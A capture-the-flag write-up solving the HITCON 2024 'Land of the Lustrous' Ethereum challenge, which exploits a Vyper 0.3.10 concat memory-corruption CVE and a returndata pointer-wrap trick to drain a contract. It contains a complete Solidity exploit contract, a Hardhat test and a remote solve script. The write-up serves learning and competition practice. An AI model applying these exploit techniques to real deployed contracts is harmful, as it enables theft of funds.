




#### HitconCTF2024/web3
# Land of the Lustrous
by Arc'blroth

My blockchain skills have come a _long_ way since [2022](../../2022/xmas/blockchain.md), but
Land of the Lustrous takes the cake for the hardest Ethereum challenge I've ever solved!
Get your Hardhats on and your Yul logs ready, because this was quite a ride...

## snek

> "In a world inhabited by crystalline lifeforms called The Lustrous, every unique gem must fight for their way of life against the threat of lunarians who would turn them into decorations." – Land of the Lustrous
> 
> `nc lustrous.chal.hitconctf.com 31337`
>
> [lustrous-e8b4ee1f74b5f0f2392436f5def8bc5ede435bbf.tar.gz](https://storage.googleapis.com/hitcon-ctf-2024-qual-attachment/lustrous/lustrous-e8b4ee1f74b5f0f2392436f5def8bc5ede435bbf.tar.gz)

Opening the challenge handout, we have the standard Ethereum instancer template that almost every CTF team now uses (lol).
In `deploy.py`, we see that the target contract starts with 1 million (!) eth, while _we_ only start with a measly 1.5 eth.
Additionally, the Ethereum launcher has been edited to add a new `battle` action,
which will call the `battle()` function in the contract with a securely random input.

Speaking of the contract, here's it in full:

```py
#pragma version ==0.3.10

enum GemStatus:
    ACTIVE
    INACTIVE
    DESTROYED

struct Gem:
    health: int256
    max_health: int256
    attack: int256
    hardness: int256
    status: GemStatus

struct Lunarian:
    health: int256
    attack: int256
    rounds: uint256

interface Master:
    def get_actions() -> DynArray[uint8, MAX_ROUNDS]: view
    def decide_continue_battle(round: uint256, lunarian_health: int256) -> bool: nonpayable

stage: public(uint8)
master_addr: public(address)
lunarian_addr: public(address)
sequences: public(HashMap[address, uint32])
gems: public(HashMap[bytes32, Gem])
assigned_gems: public(HashMap[address, uint32])
continued: public(HashMap[address, bool])

ACTIVE_HEALTH_THRESHOLD: constant(int256) = 64
STAGES: constant(uint8) = 3
MAX_ROUNDS: constant(uint256) = 300
LUNARIANS: constant(Lunarian[STAGES]) = [
    Lunarian({ health: 1_000, attack: 10_000, rounds: 100 }),
    Lunarian({ health: 10_000, attack: 100_000, rounds: 200 }),
    Lunarian({ health: 1 << 64, attack: 1 << 128, rounds: 300 }),
]

@external
@payable
def __init__():
    assert msg.value == as_wei_value(1_000_000, "ether")
    self.lunarian_addr = msg.sender

@external
@view
def is_solved() -> bool:
    return self.balance == 0

@external
def register_master():
    assert self.master_addr == empty(address), "master already registered"
    self.master_addr = msg.sender

@external
def transfer_master(new_master_addr: address):
    assert self.master_addr != empty(address), "master not registered"
    assert self.master_addr == msg.sender, "only master can transfer master"
    self.master_addr = new_master_addr

@external
@payable
def create_gem() -> Gem:
    assert self.master_addr == msg.sender, "only master can create gem"
    assert msg.value == as_wei_value(1, "ether"), "invalid value"

    random: int256 = abs(convert(keccak256(convert(block.number, bytes32)), int256))
    gem: Gem = Gem({
        health: max(random % 256, ACTIVE_HEALTH_THRESHOLD),
        max_health: random % 256,
        attack: (random / 256) % 256,
        hardness: (random / (256 * 256)) % 256,
        status: GemStatus.ACTIVE,
    })
    self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender])] = gem
    self.sequences[msg.sender] += 1
    return gem

@external
def merge_gems() -> Gem:
    assert self.master_addr == msg.sender, "only master can merge gems"
    assert self.sequences[msg.sender] >= 2, "not enough gems to merge"

    gem1: Gem = self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender] - 2)]
    gem2: Gem = self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender] - 1)]

    assert (gem1.status == GemStatus.ACTIVE and gem2.status == GemStatus.INACTIVE) \
        or (gem1.status == GemStatus.INACTIVE and gem2.status == GemStatus.ACTIVE) \
        or (gem1.status == GemStatus.INACTIVE and gem2.status == GemStatus.INACTIVE), "invalid gem status"

    gem: Gem = Gem({
        health: gem1.health + gem2.health,
        max_health: gem1.max_health + gem2.max_health,
        attack: gem1.attack + gem2.attack,
        hardness: (gem1.hardness + gem2.hardness) / 2,
        status: self.calc_status(gem1.health + gem2.health),
    })
    self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender] - 2)] = gem
    self.sequences[msg.sender] -= 1
    return gem

@external
def pray_gem():
    assert self.master_addr == msg.sender, "only master can pray gem"
    assert self.sequences[msg.sender] >= 1, "not enough gems to pray"
    self.sequences[msg.sender] -= 1

@external
def assign_gem(sequence: uint32):
    assert self.master_addr == msg.sender, "only master can assign gem"
    self.assigned_gems[msg.sender] = sequence

@external
def battle(lunarian_actions: DynArray[uint8, MAX_ROUNDS]) -> (bool, int256, int256):
    assert self.lunarian_addr == msg.sender, "only lunarian can start battle"
    assert self.master_addr != empty(address), "master not registered"
    assert self.stage < STAGES, "invalid stage"

    lunarian: Lunarian = LUNARIANS[self.stage]
    master: Master = Master(self.master_addr)
    gem_actions: DynArray[uint8, MAX_ROUNDS] = master.get_actions()
    gem_id: bytes32 = self.get_gem_id(self.master_addr, self.assigned_gems[self.master_addr])

    assert self.assigned_gems[self.master_addr] < self.sequences[self.master_addr], "invalid assigned gem"
    assert len(lunarian_actions) == lunarian.rounds and len(gem_actions) == lunarian.rounds, "invalid actions"
    assert self.gems[gem_id].status == GemStatus.ACTIVE, "gem is not active"

    for r in range(lunarian.rounds, bound=MAX_ROUNDS):
        # rock paper scissors
        lunarian_action: uint8 = lunarian_actions[r]
        gem_action: uint8 = gem_actions[r]
        assert lunarian_action <= 2 and gem_action <= 2, "invalid action"

        if lunarian_action == gem_action:
            continue

        master_win: bool = (lunarian_action == 0 and gem_action == 1) \
            or (lunarian_action == 1 and gem_action == 2) \
            or (lunarian_action == 2 and gem_action == 0)

        if master_win:
            lunarian.health -= self.gems[gem_id].attack
        else:
            self.gems[gem_id].health -= lunarian.attack / self.gems[gem_id].hardness

        if self.calc_status(self.gems[gem_id].health) != GemStatus.ACTIVE:
            master.decide_continue_battle(r, lunarian.health)
            if self.continued[self.master_addr]:
                self.continued[self.master_addr] = False
                self.gems[gem_id].health = self.gems[gem_id].max_health 

        self.gems[gem_id].status = self.calc_status(self.gems[gem_id].health)
        if self.gems[gem_id].status != GemStatus.ACTIVE or lunarian.health <= 0:
            break

    if self.gems[gem_id].status == GemStatus.ACTIVE \
        and (lunarian.health <= 0 or lunarian.health < self.gems[gem_id].health):
        if self.stage == 0:
            send(self.master_addr, as_wei_value(1, "ether"))
            self.stage += 1
        elif self.stage == 1:
            send(self.master_addr, as_wei_value(2, "ether"))
            self.stage += 1
        elif self.stage == 2:
            send(self.master_addr, self.balance)
            # congratz :)
        return True, lunarian.health, self.gems[gem_id].health
    else:
        self.stage = 0
        return False, lunarian.health, self.gems[gem_id].health

@external
@payable
def continue_battle():
    assert self.master_addr == msg.sender, "only master can continue battle"
    assert msg.value == as_wei_value(1, "ether"), "invalid value"
    self.continued[msg.sender] = True

@internal
@pure
def get_gem_id(master_addr: address, sequence: uint32) -> bytes32:
    master_addr_bytes: bytes20 = convert(master_addr, bytes20)
    sequence_bytes: bytes4 = convert(sequence, bytes4)
    gem_id: bytes32 = keccak256(concat(master_addr_bytes, sequence_bytes))
    return gem_id

@internal
@pure
def calc_status(health: int256) -> GemStatus:
    if ACTIVE_HEALTH_THRESHOLD <= health:
        return GemStatus.ACTIVE
    elif 0 <= health:
        return GemStatus.INACTIVE
    else:
        return GemStatus.DESTROYED
```

"Vyper"? What's that?


_most stable web3 project_

The [docs](https://docs.vyperlang.org/en/stable/) tell us that Vyper is a "Vyper is a contract-oriented, Pythonic programming language" and that the latest release is v0.4.0.

Wait a minute... why is our `#pragma version ==0.3.10` contract a whole major version behind?

Taking a look through [Synk's list of vulnerabilities in Vyper 0.3.10](https://security.snyk.io/package/pip/vyper/0.3.10), we quickly discover that a&rpar; Vyper has a ton of vulnerabilities and b&rpar; exactly 1 vuln applies here: [CVE-2024-22419](https://github.com/advisories/GHSA-2q8v-3gqq-4f8p).


To quote the CVE, "concat built-in can corrupt memory in vyper." The proof of concept given is:

```py
#@version ^0.3.9

@internal
def bar() -> uint256:
    sss: String[2] = concat("a", "b") 
    return 1

@external
def foo() -> int256:
    a: int256 = -1
    b: uint256 = self.bar()
    return a # will return 2**248-1
```

All internal functions on the EVM use the same [call context](https://www.evm.codes/about#executionenv) as that of their caller, since they're only callable internally. This means that memory is shared between `foo` and `bar` in the above PoC. Normally, this isn't a problem - Vyper ~~register~~ memory allocates such that all live variables use disjoint memory slots.

But the problem lies in the implementation of the concat built-in: here Vyper calls (approximately) `mstore(temp, "a")`, then `mstore(add(temp, 1), "b")`. Notice that that second store is unaligned! Although all loads and stores are 32-bytes wide on the EVM, internal memory slot indices have byte precision. Thus, calling `concat` here will also zero out the topmost byte of whatever happens to be in slot `temp + 32`, which for this PoC happens to be the variable `a`.

How does this CVE matter to the challenge? Well, there just happens to be a _very_ sus method in the challenge with almost the exact same setup:

```py
@internal
@pure
def get_gem_id(master_addr: address, sequence: uint32) -> bytes32:
    master_addr_bytes: bytes20 = convert(master_addr, bytes20)
    sequence_bytes: bytes4 = convert(sequence, bytes4)
    gem_id: bytes32 = keccak256(concat(master_addr_bytes, sequence_bytes))
    return gem_id
```

Compiling with `vyper land_of_the_lustrous.py -f ir` gives us a sexpr-style IR for the target contract (thanks Vyper for making this so easy to generate!) The crucical code around `concat` is:

```lisp
/* concat(master_addr_bytes, sequence_bytes) */ 
[with,
  concat_ofst,
  0,
  [seq,
    [mstore, [add, 256, concat_ofst], [mload, 128 <master_addr_bytes>]],
    [set, concat_ofst, [add, concat_ofst, 20]],
    [mstore, [add, 256, concat_ofst], [mload, 160 <sequence_bytes>]],
    [set, concat_ofst, [add, concat_ofst, 4]],
    [mstore, 224 <concat destination>, concat_ofst],
    224 <concat destination>]],
```

The second `mstore` thus will overwrite slots `276..308`. If we build a terrible regex and look through the rest of the IR, the only slot that could be clobbered in that region is slot 256 + 32 = `288`.

<details><summary>arc's terrible regex skills</summary><code>m(load|store)\W+?(276|277|278|279|280|281|282|283|284|285|286|287|288|289|290|291|292|293|294|295|296|297|298|299|300|301|302|303|304|305|306|307)<
</code></details><br>

Two variables are stored in slot 288 throughout the program: `lunarian_actions.length` in `battle` and `gem1.health` in `merge`. Given all of the checks around `len(lunarian_actions)`, clobbering the former would probably just panic the program. But clobbering the second... might give us a chance to win battle.

## roshambo

At this point in writing this writeup I realized that I forgot to explain what the contract actually does! Here's a quick breakdown:

- you can pay 1 eth to `create` a gem with "random" stats (based on the current block number of the blockchain)
- you can, for free, `merge` your last two gems into one gem as long if (either as one gem is active and the other is inactive \|\| both are inactive)
- you can, for free, `pray` to your last gem to "remove" it
- you can select a single gem for battle by calling `assign_gem`

The gem accounting here is mostly airtight - you can't cause `self.sequence` to be any higher than the actual number of gems created. Even if you could somehow assign an out-of-bounds gem, it would have an invalid `GemStatus`, as Vyper starts enums at `2^0 == 1`.

- off-chain, you can request the instancer to call `battle` with cryptographically secure generated inputs
- there are three "stages" to battle, each with a different opponent.
  - opponents start the same each time (ie you cannot wear down an opponent across rounds)
  - the first lunarian has 1k health and 10k attack; the second lunarian has 10k health and 100k attack; and the third has (1 << 64) health and (1 << 128) attack.
- "battle" itself is just a game of rock-paper-scissors with 100, 200, and 300 rounds for each opponent respectively.
  - this means that if you picked random inputs you would have around a $2^{-4}$ chance to win the first stage and a $2^{-40}$ chance to win the second stage.
  - tieing does nothing, winning a round deals `attack` damage to your opponent, and losing deals `opponent.attack / gem.hardness` damage to you.
    - there is a minor divide-by-zero revert here lol
  - if at any point you are _about_ to be defeated, ie your gem has `< 64` health but is still active, you can choose to continue by paying 1 eth, restoring your gem to its `max_health`.
- you win by _either_ defeating your opponent or reducing their health to below yours (I'll call this second case "conceding")
  - winning each stage gives you 1 eth, 2 eth, or _all_ the eth respectively, then advances you to the next stage
  - losing sends you back to stage 0

Crucically, there are two places in `battle` where you are called to run arbitrary code - once for `get_actions` and once for `decide_continue_battle`. My reentrancy senses are tingling - despite the fact that Vyper has built-in lock support, locks are entirely absent from any of the gem-mutating methods!

Given all of that, there are two things we need to figure out:

1. Can we somehow leak our opponent's inputs and thus deterministically win/tie/lose?
2. Can we build a gem with enough health or attack to win against Lunarian #3?

## epiphany

It's _incredibly_ sus that `decide_continue_battle` is called with a gem that is ACTIVE but has less than 64 health - it's the only place in the entire contract in which a gem can have a desync'd status.

So what if we were to, say, merge an current ACTIVE gem _with negative health_ against an INACTIVE gem?

```py
@external
def merge_gems() -> Gem:
    assert self.master_addr == msg.sender, "only master can merge gems"
    assert self.sequences[msg.sender] >= 2, "not enough gems to merge"

    gem1: Gem = self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender] - 2)]
    gem2: Gem = self.gems[self.get_gem_id(msg.sender, self.sequences[msg.sender] - 1)]
```

From the first section we know that calling `get_gem_id` will clobber memory slot `288`, which in `merge_gems` maps to `gem1.health`. So if `gem1.health` happened to be negative, then when gem2's id is retrieved...



---

You might be wondering why I solved part 2 first instead of part 1. Well, that's because I originally thought that the EVM would let you read a parent callling context willy-nilly, which... is unfortunately false.

Luckily, Vyper is (unwittingly) on our side once again...

When I first read the code for the target contract, I had no idea what a `DynArray[uint8, 300]` was. It turns out that it maps to a dynamically-allocated `uint8[]` array in Solidity, and that internally it's just a `length` plus `length` elements. (Vyper's extra type argument means that it inserts hidden asserts to ensure the array is less than the specified maximum length.) These dynamic arrays were, until Solidity 0.7, part of the experimental `ABIEncoderV2` pragma, and were only stabilized in Solidity 0.8 - which is probably why I haven't seen them before!

How does Vyper decode the DynArray it gets from `get_actions`?

```
/* gem_actions: DynArray[uint8, MAX_ROUNDS] = master.get_actions() */ 
[with,
  darray_src,
  /* master.get_actions() */ 
  [with,
    external_contract,
    [mload, 10016 <master>],
    [seq,
      [unique_symbol, master.get_actions()95],
      [mstore, 19680, 3130363090],
      [if,
        [iszero, [staticcall, gas, external_contract, 19708, 4, 19680, 9664]],
        [seq, [returndatacopy, 0, 0, returndatasize], [revert, 0, returndatasize]]],
      [seq,
        [seq,
          [assert, [ge, returndatasize, 64]],
          [with,
            arr_ptr,
            [add, 19680 <master.get_actions() returndata buffer>, [mload, 19680]],
            [seq,
              [assert, [le, [mload, arr_ptr], 300]],
              [with,
                darray_count,
                [mload, arr_ptr],
                [seq,
                  [repeat,
                    copy_darray_ix96,
                    0,
                    darray_count,
                    300,
                    /* [add, 29376, 0][i] = arr_ptr[i] */ 
                    [mstore,
                      [add, 29408, [shl, 5, copy_darray_ix96]],
                      /* uint8 bounds check */ 
                      [with,
                        val,
                        [mload, [add, [add, arr_ptr, 32], [shl, 5, copy_darray_ix96]]],
                        [seq, [assert, [iszero, [shr, 8, val]]], val]]]],
                  [mstore, 29376, darray_count]]]]]],
        29376]]],
  [with,
    darray_count,
    [mload, darray_src],
    [with,
      copy_bytes_count,
      [add, [shl, 5, darray_count], 32],
      /* copy up to 9632 bytes from darray_src to 10048 */ 
      [staticcall,
        gas,
        4,
        darray_src,
        copy_bytes_count,
        10048,
        copy_bytes_count]]]],
```

The general gist of this is that in the returndata, Vyper looks for a pointer to the actual DynArray, then copies the length plus length elements to internal memory.

> `[add, 19680 <master.get_actions() returndata buffer>, [mload, 19680]]`

But what if... we try to point to _Land_'s memory instead?

A quick look at [evm.codes](https://www.evm.codes/#01?fork=cancun) tells me that ADD is actually a _wrapping_ operation on the EVM. Thus, if we pass back a pointer to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffb440`, Vyper will try to load the DynArray from `19860 <returndata buffer> + 0xff..b440` = `288 <lunarian_actions>`!

> Note: If you read the above IR carefully, you might notice that we technically have to return at least \*64\* bytes of data (ie a pointer + length 0 array) for Vyper to accept the returndata.
>
> ```solidity
> assembly {
>     mstore(r, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffb440)
>     return(r, 64)
> }
> ```

This doesn't give us a way to deterministically win or lose a battle, but it _does_ give us a way to deterministically tie any battle. Since we get 1 eth for winning battle 1 and we have a reasonable (~6%) chance at winning, we can achieve an Infinite Money Hack&trade; by winning battle 1 (forcing a revert if we ever get to `decide_continue_battle`), tieing battle 2, and repeating.

Draining a million eth using this obviously isn't feasible, but now we have everything we need to can put things together...

## plan

Arc's 8-step plan to 1 million eth (patent pending):

1. Purchase our first gem for 1 eth, forcing revert until it has at least 240 attack. Then, request a battle until we reach stage 1. Our new balance should be 1.5 eth again, minus gas fees. 
    - Unless otherwise mentioned, we'll always pick paper (action 1) in `get_actions` and force revert in `decide_continue_battle`.

2. Tie stage 1 by returning the pointer to `lunarian_actions` in `get_actions`.

3. Battle to stage 1 again, pushing our balance to 2.5 eth.

4. Tie stage 1 again to return to stage 0.

5. Purchase a second gem for 1 eth, forcing revert until it has _less than_ 64 `max_health`. Then, `INACTIVE`ate the gem by requesting a battle and intentionally throwing. In `decide_continue_battle`, we'll pay 1 eth to request a continue, setting the gem's `health` to its `max_health`. Since the gem's new health will be less than 64, it will immediately gain an `INACTIVE` status and thus cancel the remainder of the battle for a loss. Our new balance should be 0.5 eth, minus gas fees.
    - This abuses the fact that gems always start out `ACTIVE` and thus must have at least 64 health, even if `max_health` is actually a lower number!

6. Switch back to our first and still ACTIVE gem, then battle to stage 1.

7. Request battle with seemingly the intent to get pwn'd. In `decide_continue_battle`, merge our (statistically certain) negative health ACTIVE gem with our other INACTIVE gem to create ✨ the ultimate gem ✨. This gem should have around `(1 << 160)` health, more than enough to tank and beat both stages 1 and 2. We end stage 1 victorious with a balance of 2.5 eth, minus gas fees.

8. Request the final stage 2 battle, win, and drain the contract.

> Fun Fact: Originally this plan had only 6 steps, until I realized that it would be statistically impossible to get a negative health value and abuse the max_health trick in stage 0.

While coming up with and testing this plan, I finally switched from Remix's slow and memory-leaking debugger to a proper [Hardhat](https://hardhat.org/) workspace, which provides actual stack traces on revert (!)



After a concerningly long amount of testing, this was my final contract:

```solidity
// SPDX-License-Identifier: WTFPL-2.0
pragma solidity ^0.8.22;

import { Gem, Land, Master } from "./Land.sol";

error RoundFailedTryAgain(Gem gem, uint256 round, int256 health);
error BadGemTryAgain(Gem gem);
error BadGem(Gem gem);

contract Solve is Master {
    Land public land;
    uint8 public step;

    constructor(Land _land) payable {
        require(msg.value >= 1 ether, "i need at least 1 etheroos");

        land = _land;
        land.register_master();
        step = 0;
    }

    // build our first gem and battle to stage 1
    function step1() external {
        require(step == 0, "not ready for step");
        step += 1;
        Gem memory gem = land.create_gem{value: 1 ether}();
        land.assign_gem(0);
        if (gem.attack < 240) {
            revert BadGemTryAgain(gem);
        }
    }

    // tie stage 1 to go back to stage 0
    function step2() external {
        require(step == 1 && land.stage() == 1, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    // battle to stage 1 again
    function step3() external {
        require(step == 2 && land.stage() == 0, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    // tie stage 1 to go back to stage 0 again
    function step4() external {
        require(step == 3 && land.stage() == 1, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    // make an inactive gem
    function step5() external {
        require(step == 4 && land.stage() == 0, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;

        Gem memory gem = land.create_gem{value: 1 ether}();
        if (gem.max_health >= 64) {
            revert BadGemTryAgain(gem);
        }
        land.assign_gem(1);
    }

    // battle to stage 1 again again
    function step6() external {
        require(step == 5 && land.stage() == 0, "not ready for step");
        if (fetchCurrentGem().status != 2) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;

        land.assign_gem(0);
    }

    // make the ultimate gem
    function step7() external {
        require(step == 6 && land.stage() == 1, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    // fight to the finish
    function step8() external {
        require(step == 7 && land.stage() == 2, "not ready for step");
        if (fetchCurrentGem().health < (1 << 64)) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    function fetchGem(uint32 id) public view returns (Gem memory) {
        return land.gems(keccak256(bytes.concat(bytes20(address(this)), bytes4(id))));
    }

    function fetchCurrentGem() public view returns (Gem memory) {
        return fetchGem(land.assigned_gems(address(this)));
    }

    function get_actions() external view returns (uint8[] memory r) {
        if (step == 2 || step == 4 || step == 8) {
            assembly {
                mstore(r, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffb440)
                return(r, 64)
            }
        } else {
            r = new uint8[]((uint256(land.stage()) + 1) * 100);
            for (uint256 i = 0; i < r.length; i++) {
                r[i] = 1;
            }
        }
    }

    function decide_continue_battle(uint256 round, int256 health) external returns (bool) {
        Gem memory gem = fetchCurrentGem();
        if (step == 5) {
            land.continue_battle{value: 1 ether}();
        } else if (step == 7) {
            land.merge_gems();
        } else {
            revert RoundFailedTryAgain(gem, round, health);
        }
        return true;
    }

    receive() external payable {
        // gib me money
    }

    fallback() external payable {
        // i have a family to feed
    }
}
```

Shoutout to [zemse/hardhat-tracer](https://github.com/zemse/hardhat-tracer) for singlehandedly improving my Ethereum debugging experience!

<details>
<summary>Hardhat Testing Script (run with <code>npx hardhat --trace</code>)</summary>

```ts
import { loadFixture } from "@nomicfoundation/hardhat-toolbox/network-helpers"
import hre from "hardhat"
import { randomInt } from "node:crypto"

describe("solve", function() {
  async function deploy() {
    const [owner, other] = await hre.ethers.getSigners()
    
    const Land = await hre.ethers.getContractFactory("contracts/Land.vy:Land")
    const land = await Land.deploy({ value: 10n * (10n ** 18n), from: owner })
    
    const Solve = await hre.ethers.getContractFactory("contracts/solve.sol:Solve", other)
    const solve = await Solve.deploy(land, { value: 1n * (10n ** 18n), from: other })
    
    return { owner, other, land, solve }
  }

  async function runUntilNoRevert(attempts: [number], run: () => Promise<void>) {
    let done = false
    while (!done) {
      try {
        console.log(`attempt ${attempts[0]++}`)
        await run()
        done = true
      } catch (e: any) {
        if (!e.message.includes("RoundFailedTryAgain") && !e.message.includes("BadGemTryAgain")) throw e;
      }
    }
  }

  async function simulateBattle(land: Awaited<ReturnType<typeof deploy>>["land"]) {
    const numActions = (Number(await land.stage()) + 1) * 100
    const actions = []
    for (let i = 0; i < numActions; i++) {
      actions.push(randomInt(3))
    }
    await land.battle(actions)
  }
  
  it("should solve", async function () {
    const { owner, other, land, solve } = await loadFixture(deploy)
    hre.tracer.opcodes.set("SLOAD", false)
    hre.tracer.opcodes.set("SSTORE", false)

    let attempts: [number] = [0]
    console.log("STEP 1")
    await runUntilNoRevert(attempts, async () => await solve.step1())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 2")
    await runUntilNoRevert(attempts, async () => await solve.step2())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 3")
    await runUntilNoRevert(attempts, async () => await solve.step3())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 4")
    await runUntilNoRevert(attempts, async () => await solve.step4())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 5")
    await runUntilNoRevert(attempts, async () => await solve.step5())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 6")
    await runUntilNoRevert(attempts, async () => await solve.step6())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 7")
    await runUntilNoRevert(attempts, async () => await solve.step7())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    console.log("STEP 8")
    await runUntilNoRevert(attempts, async () => await solve.step8())
    await runUntilNoRevert(attempts, async () => await simulateBattle(land))
    if (!land.is_solved()) {
      throw "not solved"
    }
  })
})
```
</details><br>

With all that, all's that's left is to replicate on remote!

## moon

_in which Arc spends another hour learning web3.py_

```py
import hashlib
import json
import pwn
from web3 import Web3
from web3.middleware import construct_sign_and_send_raw_middleware

def action(num: int) -> pwn.remote:
    launcher = pwn.remote("lustrous.chal.hitconctf.com", 31337)
    launcher.recvuntil(b"action? ")
    launcher.sendline(str(num).encode())
    return launcher

def solve_pow(launcher: pwn.remote):
    cmd = launcher.recvline_contains(b"curl -sSL").decode().split(" ")
    prefix = cmd[-2].encode()
    bits = int(cmd[-1])

    for i in range(0, 1 << 32):
        your_input = str(i).encode()
        preimage = prefix + your_input
        digest = hashlib.sha256(preimage).digest()
        digest_int = int.from_bytes(digest, "big")
        if digest_int < (1 << (256 - bits)):
            launcher.recvuntil(b"YOUR_INPUT = ")
            launcher.sendline(your_input)
            return

    raise AssertionError("failed to solve pow")

def battle(uuid: str) -> bool:
    launcher = action(3)
    solve_pow(launcher)
    launcher.recvuntil(b"uuid please: ")
    launcher.sendline(uuid.encode())
    result = launcher.recvall().decode()
    if "Error:" in result:
        print("\n\nerror\n\n")
        return False
    else:
        print(f"tx.result = {result.split("\n")[0].split(" ")[-1]}")
        return result.split("\n")[0].split(" ")[-1] == "1"

# =============================
# instance a blockchain
# =============================

launcher = action(1)
solve_pow(launcher)
rpc = launcher.recvline_contains(b"rpc endpoint:").decode().split(" ")[-1]
uuid = rpc.split("/")[-1]
key = launcher.recvline_contains(b"private key:").decode().split(" ")[-1]
addr = launcher.recvline_contains(b"your address:").decode().split(" ")[-1]
chall = launcher.recvline_contains(b"challenge contract:").decode().split(" ")[-1]
print(f"rpc = {rpc}\nkey = {key}\naddr = {addr}\nchall = {chall}")
launcher.recvall()

# =============================
# deploy our contract
# =============================

w3 = Web3(Web3.HTTPProvider(rpc))
account = w3.eth.account.from_key(key)
w3.eth.default_account = account.address
w3.middleware_onion.add(construct_sign_and_send_raw_middleware(account))

print(f"current balance: {w3.eth.get_balance(account.address)}")

Solve_abi = None
with open("artifacts/contracts/solve.sol/Solve.json") as f:
    Solve_abi = json.loads(f.read())
Solve = w3.eth.contract(abi=Solve_abi["abi"], bytecode=Solve_abi["bytecode"])

tx_hash = Solve.constructor(chall).transact(transaction={"value": 10**18})
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
solve = w3.eth.contract(address=tx_receipt.contractAddress, abi=Solve.abi)

# =============================
# solve!
# =============================

attempts = 0

def run_until_no_revert(step):
    global attempts
    while True:
        print(f"attempt {attempts}")
        attempts += 1
        tx_receipt = w3.eth.wait_for_transaction_receipt(
            step.transact(transaction={"gas": 3_000_000})
        )
        if tx_receipt["status"] == 1:
            return

def battle_until_no_revert(uuid: str):
    global attempts
    done = False
    while not done:
        print(f"attempt {attempts}")
        attempts += 1
        done = battle(uuid)

for i in range(1, 9):
    print(f"STEP {str(i)}")
    run_until_no_revert(solve.functions[f"step{str(i)}"]())
